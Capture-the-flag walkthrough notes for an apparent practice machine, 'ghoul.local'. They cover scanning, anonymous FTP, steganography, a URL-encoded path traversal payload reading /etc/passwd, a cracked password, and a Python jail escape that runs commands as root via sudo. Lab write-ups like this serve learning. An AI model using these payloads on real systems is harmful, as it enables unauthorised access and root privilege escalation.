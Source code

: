 nmap:
21 ftp anon allowed
22 ssh
80 http

login ftp as anonymous
get Aogiri_tree.txt
get need_to_talk: binary file
		chmod +x: 
		rabin2 -z need_to_talk: get passphrase: kamishiro
		type to need_to_talk: get passphrase for rize_and_kaneki.jpg: You_found_1t
steghide extract -sf rize_and_kaneki.jpg: 
	get yougotme.txt
		morse code -> hex -> base64 -> text : d1r3c70ry_center

gobuster /d1r3c70ry_center: /claim
lfi exploit: ?view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
got hashed passwd: password123

ssh kamishiro@ghoul.local
	-> get user.txt

sudo -l we can run /usr/bin/python3 /home/kamishiro/jail.py as root
a similar chalenge of escaping python jail: https://anee.me/escaping-python-jails-849c65cf306e
	sudo /usr/bin/python3 /home/kamishiro/jail.py
	__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')

	-> get root.txt


 